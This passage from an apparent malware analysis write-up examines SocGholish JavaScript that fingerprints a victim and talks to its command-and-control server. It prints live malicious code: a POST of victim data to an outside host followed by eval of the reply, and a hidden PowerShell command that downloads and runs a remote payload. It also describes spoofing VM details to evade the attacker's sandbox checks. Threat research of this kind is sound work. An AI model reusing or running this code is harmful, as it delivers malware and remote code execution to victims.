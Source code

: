 ```JS
	var xmlhttp_obj=new ActiveXObject('MSXML2.XMLHTTP');
	xmlhttp_obj.open('POST','https://ianxu.nodes.gammalambdalambda.org/gotoCheckout',false);
	xmlhttp_obj.setRequestHeader('Upgrade-Insecure-Requests','1');
	xmlhttp_obj.send(c2_string);
	resp_text=xmlhttp_obj.responseText;
	var evString='eval';
	this[evString](resp_text);
}
catch(e){}
```
The purpose of this script is to "fingerprint" the victim device and relay the information back to the C2 server in a specific format. If the C2 responds, the response text is executed.

The trouble I ran into here, is that since I was running Windows in a VM, this information would be captured in many of the WMI queries, including the manufacturer, model, and version, as well as some running processes.

The C2 _will_ perform checks to estimate whether their "victim" is a security researcher, so I'll have to make some adjustments in order to get a response. 

To quote from a fantastic [article](https://www.proofpoint.com/us/blog/threat-insight/ta569-socgholish-and-beyond) from Proofpoint's Andrew Northern - "SocGholish payloads are dynamically generated with data points about the victim being an input. This dynamic generation essentially locks each payload to each victim causing the payload to be rendered useless if it is moved to a different environment for analysis. Additionally, each payload is keyed to a specifically prefixed subdomain for command and control (C2) communication. Attempting to interact with a previously observed C2 domain with a known prefix will result in a closed connection."

If the C2 detects that the victim is a VM, it will not respond to any requests from that IP again. Each failure means I'll need to use a new victim IP address and run through the whole infection chain starting with the compromised site to get a freshly generated payload.

Inspired by this [post](https://infosec.exchange/@rmceoin/110289792904238153) from [@rmceoin](https://infosec.exchange/@rmceoin), I created rules in BurpSuite to find and replace specific strings in the request body of traffic passing through the proxy.

For example, the string `VirtualBox` would be replaced with `HP%20Z620%20Workstation`, `VBoxTray.exe` would be replaced with `svchost.exe`, and so on.

In addition to these measures to obscure my VM from the threat actor, I also supplied a fake domain to replace the blank result returned by `activex_obj['ExpandEnvironmentStrings']('%userdnsdomain%')`. In a future post, I would like to explore the differences (if any) of the response returned by the C2 when given a domain versus no domain.

After a few sessions of trial and error, I was finally able to obtain another response from the C2.
### SocGholish C2 Server: Second Response
The C2 responded with another block of JavaScript, but interestingly, this one was not obfuscated.
```JS
var initExeption='0';
var runFileExeption='';
var runFileResult='';
var execFileName='7714b363.ps1';
var fs=new ActiveXObject("Scripting.FileSystemObject");
var _tempFilePathExec=fs.GetSpecialFolder(2)+"\\"+execFileName;
if(initExeption=='0'){
	try{
		var wsh=new ActiveXObject("WScript.Shell");
		runFileResult=wsh.Run('powershell -w h -c "iwr -usebasicparsing http://wudugf.top/f23.svg |iex"',0);;
	}
	catch(e){
		runFileExeption += 'error number:' + e.number + ' message:' + e.message;
	}
}
var req=[];
req.push('c');
```